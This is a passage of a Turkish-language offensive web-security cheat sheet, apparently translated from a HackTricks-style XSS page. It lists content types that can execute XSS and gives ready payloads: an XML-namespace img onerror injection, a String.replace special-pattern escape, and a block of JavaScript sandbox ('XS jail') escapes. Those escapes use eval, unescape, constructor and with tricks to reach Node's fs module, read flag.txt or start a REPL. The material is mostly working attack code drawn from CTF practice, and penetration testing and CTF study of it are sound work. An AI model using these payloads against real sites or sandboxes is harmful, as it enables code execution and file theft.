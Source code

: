 (From [**here**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/)) Aşağıdaki içerik türleri tüm tarayıcılarda XSS'i çalıştırabilir:

- text/html
- application/xhtml+xml
- application/xml
- text/xml
- image/svg+xml
- text/plain (?? listede yok ama bunu bir CTF'de gördüğümü düşünüyorum)
- application/rss+xml (kapalı)
- application/atom+xml (kapalı)

Diğer tarayıcılarda diğer **`Content-Types`** rastgele JS çalıştırmak için kullanılabilir, kontrol et: [https://github.com/BlackFan/content-type-research/blob/master/XSS.md](https://github.com/BlackFan/content-type-research/blob/master/XSS.md)

### xml İçerik Türü

Eğer sayfa text/xml içerik türü döndürüyorsa, bir ad alanı belirtmek ve rastgele JS çalıştırmak mümkündür:
```xml
<xml>
<text>hello<img src="1" onerror="alert(1)" xmlns="http://www.w3.org/1999/xhtml" /></text>
</xml>

<!-- Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker (p. 113). Kindle Edition. -->
```
### Özel Değiştirme Desenleri

**`"some {{template}} data".replace("{{template}}", <user_input>)`** gibi bir şey kullanıldığında, saldırgan bazı korumaları aşmaya çalışmak için [**özel dize değiştirmeleri**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#specifying_a_string_as_the_replacement) kullanabilir: `` "123 {{template}} 456".replace("{{template}}", JSON.stringify({"name": "$'$`alert(1)//"})) ``

Örneğin, [**bu yazıda**](https://gitea.nitowa.xyz/nitowa/PlaidCTF-YACA) bu, bir script içinde **bir JSON dizesini** kaçırmak ve rastgele kod çalıştırmak için kullanıldı.

### Chrome Önbelleği ile XSS

{{#ref}}
chrome-cache-to-xss.md
{{#endref}}

### XS Jails Kaçışı

Kullanmak için yalnızca sınırlı bir karakter setiniz varsa, XSJail sorunları için bu diğer geçerli çözümleri kontrol edin:
```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/index.html)with(this)with(constructor)constructor(source)()
// Just replace console.log(1) to the real code, the code we want to run is:
//return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))
```